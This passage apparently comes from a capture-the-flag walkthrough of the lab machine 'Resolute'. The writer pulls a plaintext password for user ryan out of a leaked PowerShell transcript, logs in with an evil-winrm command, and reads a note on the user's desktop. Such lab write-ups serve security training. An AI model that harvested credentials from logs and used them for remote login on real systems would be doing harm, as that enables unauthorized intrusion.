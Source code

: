 ```powershell
SerializationVersion: 1.1.0.1
**********************
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="InputObject"; value="The syntax of this command is:"
cmd : The syntax of this command is:
At line:1 char:1
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (The syntax of this command is::String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
cmd : The syntax of this command is:
At line:1 char:1
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (The syntax of this command is::String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
**********************
Windows PowerShell transcript start
Start time: 20191203063515
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
```

Identified a new set of credentials in the powershell script: `ryan:Serv3r4Admin4cc123!`

Signed into target machine with ryan's credentials:

```bash
evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
```

Found a file titled `note.txt` in the user's directory:

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> type note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```
